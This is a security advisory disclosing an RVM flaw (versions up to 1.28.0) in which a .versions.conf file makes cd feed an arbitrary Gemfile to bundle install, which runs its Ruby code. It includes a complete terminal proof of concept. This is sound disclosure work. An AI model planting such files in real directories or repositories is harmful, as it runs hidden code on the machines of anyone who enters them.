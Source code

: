Trigger the POC:

```text
rvm@e6aeaf6d79ec:~$ cat /tmp/poc_output
cat: /tmp/poc_output: No such file or directory

rvm@e6aeaf6d79ec:~$ cd poc
installing gem .poc-gem-1.33.7.gem --no-ri --no-rdoc.

rvm@e6aeaf6d79ec:~/poc$ cat /tmp/poc_output
Arbitrary ruby code execution as uid=1000(rvm) gid=1000(rvm) groups=1000(rvm)
```

CVE-2017-TBA RVM automatically does "bundle install" on a Gemfile specified by .versions.conf in $PWD
-----------------------------------------------------------------------------------------------------

* Private disclosure date: 2016-11-07
* Public disclosure date: 2017-02-15
* Vendor advisory: <https://rvm.io/blog/2017/02/rvm-1-29-0>
* Affected versions: <=1.28.0

RVM, by default, hooks `cd` and automatically parses a file named
`.versions.conf` in the directory being changed to. The intention seems to be
that, if the user's `${rvm_autoinstall_bundler_flag}` setting is enabled, then
`.versions.conf` can specify a Gemfile that will automatically be fed to
`bundle install`. Due to an erroneous conditional that uses `||` (OR) instead
of `&&` (AND), `.versions.conf` can provide the name of an arbitrary Gemfile
that will automatically be fed to `bundle install` regardless of the state of
`${rvm_autoinstall_bundler_flag}`. The code responsible, as of a vulnerable
commit, is available at
<https://github.com/rvm/rvm/blob/b04c0158dbadc9a999a2af4f39bc008976b9ebf1/scripts/functions/rvmrc_project#L102-L113>.

This behaviour can be used to achieve immediate ruby code execution upon `cd`
into a malicious directory since Gemfiles are interpreted using Ruby
<https://github.com/bundler/bundler/issues/5178>

### POC

```text
rvm@e6aeaf6d79ec:~$ mkdir poc

rvm@e6aeaf6d79ec:~$ cat > poc/.versions.conf
ruby=ruby-2.3.0
ruby-bundle-install=.doot
^D

rvm@e6aeaf6d79ec:~$ cat > poc/.doot
`echo "Arbitrary ruby code execution as $(id)" >&2`
^D

rvm@e6aeaf6d79ec:~$ cd poc
installing gem bundler --no-ri --no-rdoc.
Arbitrary ruby code execution as uid=1000(rvm) gid=1000(rvm) groups=1000(rvm)
The Gemfile specifies no dependencies
Resolving dependencies...
Bundle complete! 0 Gemfile dependencies, 1 gem now installed.
Use `bundle show [gemname]` to see where a bundled gem is installed.
```

---

Justin Steven

<https://twitter.com/justinsteven>
